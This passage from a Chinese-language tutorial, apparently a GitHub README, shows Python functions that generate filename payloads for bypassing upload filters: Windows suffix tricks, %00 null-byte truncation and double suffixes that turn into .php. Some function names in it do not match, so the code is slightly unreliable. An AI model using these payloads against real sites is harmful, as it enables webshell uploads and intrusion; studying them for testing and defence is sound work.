 >     > windows_os = [' ','.','/','::$DATA','<','>','>>>','%20','%00'] + str_81_to_ff()
>     > def windows_suffix_builder(suffix):
>     >     res = []
>     >     for s in suffix:
>     >         for w in windows_os:
>     >             str = '%s%s' % (s,w)
>     >             res.append(str)
>     >     return res
>     > ```
>     >
>     > ### 六、语言的漏洞
>     >
>     > 语言漏洞被利用于上传的有%00截断和0x00截断。它们在asp，php和jsp中都存在着。
>     >
>     > ```
>     > def str_00_truncation(suffix,allow_suffix):
>     >     res = []
>     >     for i in suffix:
>     >         str = '%s%s.%s' % (i,'%00',allow_suffix)
>     >         res.append(str)
>     >         str = '%s%s.%s' % (i,urllib.unquote('%00'),allow_suffix)
>     >         res.append(str)
>     >     return res
>     > ```
>     >
>     > ### 七、双后缀
>     >
>     > 有些站点通过对上传文件名进行删除敏感字符（php,asp,jsp等等）的方式进行过滤,例如你上传一个aphp.jpg的文件，那么上传之后就变成了a.jpg。这时就可以利用双后缀的方式上传一个a.pphphp,最终正好生成a.php。其实双后缀与中间件和操作系统无关，而是和代码逻辑有关。
>     >
>     > 针对双后缀，我们可以写个`str_double_suffix_creater(suffix)`函数，传入后缀名suffix即可生成所有的双后缀可能。
>     >
>     > ```
>     > def str_double_suffix_creater(suffix):
>     >     res = []
>     >     for i in range(1,len(suffix)):
>     >         str = list(suffix)
>     >         str.insert(i,suffix)
>     >         res.append("".join(str))
>     >     return res
>     > ```
>     >
>     > 在`list_double_suffix_creater(suffix)`函数基础上，可以编写`list_double_suffix_creater(list_suffix)`来为一个list生成所有双后缀可能。
>     >
>     > ```
>     > def list_double_suffix_creater(list_suffix):
>     >     res = []
>     >     for l in list_suffix:
>     >         res += double_suffix_creater(l)
>     >     return duplicate_removal(res)
>     > ```
>     >
>     > 工具
>     >
>     > ```
>     > $ python upload-fuzz-dic-builder.py -h
>     > usage: upload-fuzz-dic-builder [-h] [-n] [-a] [-l] [-m] [--os] [-d] [-o]
>     >
>     > optional arguments:
>     >   -h, --help            show this help message and exit
>     >   -n , --upload-filename
>     >                         Upload file name
>     >   -a , --allow-suffix   Allowable upload suffix